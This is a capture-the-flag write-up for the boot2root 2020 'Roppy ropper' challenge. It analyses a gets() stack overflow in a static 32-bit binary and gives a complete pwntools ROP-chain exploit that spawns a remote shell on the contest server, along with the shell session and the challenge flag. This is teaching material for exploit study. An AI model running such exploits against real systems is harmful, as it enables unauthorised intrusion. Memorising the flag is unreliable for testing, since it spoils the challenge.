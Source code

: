 # boot2root 2020

## Roppy ropper

> 467
>
> I love ropes do you?
>
> `nc 35.238.225.156 1004`
>
> Author: TheBadGuy
> 
> [lsass](lsass)

Tags: _pwn_ _x86_ _remote-shell_ _bof_ _rop_


## Summary

Static ROP binary, all parts included.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No PIE or Canary (where is matters, see below); easy easy ROP.


### Decompile with Ghidra

```c
void list_me_like_crazy(void)
{
  char *pcVar1;
  char local_11 [9];
  
  puts("(list_me_like_crazy)");
  puts("Is this lsass I dont understand :)");
  puts("Give me your arguments:");
  gets(local_11);
  pcVar1 = strchr(local_11,0x2f);
  if (pcVar1 == (char *)0x0) {
    run_command(local_11);
  }
  else {
    puts("Hey sorry that is not allowed");
  }
  return;
}
```

When loading up in Ghidra the first thing you'll notice is how long it takes Ghidra to analyze the binary because it is statically linked:

```
lsass: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked,
BuildID[sha1]=29ace8e7875f5edabe4ce83e83ec1aebd4cfa48c, for GNU/Linux 3.2.0, not stripped
```

Like [Welcome to Pwn](https://github.com/datajerk/ctf-write-ups/tree/master/boot2root2020/welcome_to_pwn), `gets` is the vulnerability, but since we have a binary full of gadgets using something like `ropper` (hint in the title) is all we need:

```
ropper --file lsass --chain "execve cmd=/bin/sh" --badbytes 0a
```

The output of that prefixed with `0x11` bytes of garbage is all we need to get a shell (`local_11` is `0x11` bytes from the return address on the stack).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./lsass')

if args.REMOTE:
        p = remote('35.238.225.156', 1004)
else:
        p = process(binary.path)

# ropper --file lsass --chain "execve cmd=/bin/sh" --badbytes 0a
IMAGE_BASE_0 = 0x08048000 # da2732480d49a078e666802ee2edcd948700eacaaa48129430ea1ff6d5e8e5c6
rebase_0 = lambda x : p32(x + IMAGE_BASE_0)

rop  = b''
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += b'//bi'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a060)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += b'n/sh'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a064)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += p32(0x00000000)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a068)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a060)
rop += rebase_0(0x0001c081) # 0x08064081: pop ecx; add al, 0xf6; ret;
rop += rebase_0(0x0009a068)
rop += rebase_0(0x0004fa95) # 0x08097a95: pop edx; xor eax, eax; pop edi; ret;
rop += rebase_0(0x0009a068)
rop += p32(0xdeadbeef)
rop += rebase_0(0x00001825) # 0x08049825: pop ebp; ret;
rop += p32(0x0000000b)
rop += rebase_0(0x0001aa7e) # 0x08062a7e: xchg eax, ebp; ret;
rop += rebase_0(0x000319a0) # 0x080799a0: int 0x80; ret;

payload  = 0x11 * b'A'
payload += rop

p.sendlineafter('arguments:\n',payload)
p.interactive()
```

As stated in the Analysis section, `0x11` bytes, then ROPchain from `ropper`.

> The above is not 100% `ropper` output, I changed `p` to `p32`, added `b` to strings because I use `python3`, etc... nothing difficult to understand.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/roppy_ropper/lsass'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 35.238.225.156 on port 1004: Done
[*] Switching to interactive mode
Hey sorry that is not allowed
$ id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
$ ls -l
total 688
-r--r--r-- 1 pwnflag pwnflag     35 Dec  6 09:29 flag.txt
-rwsr-xr-x 1 pwnflag pwnflag 698068 Dec  6 09:29 lsass
$ cat flag.txt
b00t2root{R0p_cHa1nS_ar3_tH3_b3st}
```
